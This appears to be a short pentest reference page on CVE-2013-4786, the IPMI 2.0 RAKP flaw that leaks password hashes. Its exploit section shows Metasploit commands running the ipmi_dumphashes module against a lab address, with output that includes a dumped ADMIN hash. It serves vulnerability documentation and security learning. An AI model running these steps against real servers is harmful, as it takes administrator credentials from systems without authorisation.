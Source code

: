 ```yaml
---
title : "CVE-2013-4786"
# pre : ' '
description : "The IPMI 2.0 specification supports RMCP+ Authenticated Key-Exchange Protocol (RAKP) authentication, which allows remote attackers to obtain password hashes and conduct offline password guessing attacks by obtaining the HMAC from a RAKP message 2 response from a BMC."
date : 2020-05-06T09:32:00+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2013-4786 - IPMI Password hash retrieval

### Exploit

```plain
msf5 use auxiliary/scanner/ipmi/ipmi_dumphashes
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.10.12
msf5 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 10.10.10.12:623 - IPMI - Hash found: ADMIN:84eaac57180000006c2ad3df7e0a746f542cf3232b7a3b0ee20f4eff[...]00140541444d494e:361d72b683182e7adf0478d7113f30443988b8d0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

* [Tenable.com](https://www.tenable.com/cve/CVE-2013-4786)
* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2013-4786)
